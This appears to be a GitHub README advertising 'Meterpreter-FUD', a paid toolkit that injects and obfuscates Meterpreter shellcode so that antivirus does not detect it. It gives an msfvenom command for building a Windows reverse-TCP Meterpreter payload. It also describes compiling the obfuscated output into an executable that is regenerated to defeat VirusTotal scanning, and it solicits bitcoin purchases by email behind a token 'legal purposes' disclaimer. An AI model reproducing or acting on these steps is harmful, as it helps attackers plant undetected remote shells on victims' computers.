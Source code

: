 # Meterpreter-FUD
FUD Meterpreter trough shellcode injection and obfuscation, bypass every anti virus.


![221409544-93b34748-e6cd-4e35-9352-9fde25290df3](https://user-images.githubusercontent.com/127155514/223272476-4b2785de-d929-4070-8a9a-1a1ebc2df428.png)


Watch the video!!

The Toolkit has 2 scripts, A shellcode injector and a obfuscator, you have to generate the payload via Metersploit and this command:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=4444 -f python

You put the shellcode into the shellcode.py file, then you run the main.py script and get a fud python script, which you can compile to a exe file

The output python script will always be different and takes a different delay between 30-60 seconds, because of the special obfuscator, so even if someone upload the script to virustotal, the new generated will not get detected. But pls dont upload ;) Only for LEGAL purposes!!!

Write an email to CNP_EVO@proton.me to buy it, payments via bitcoin!
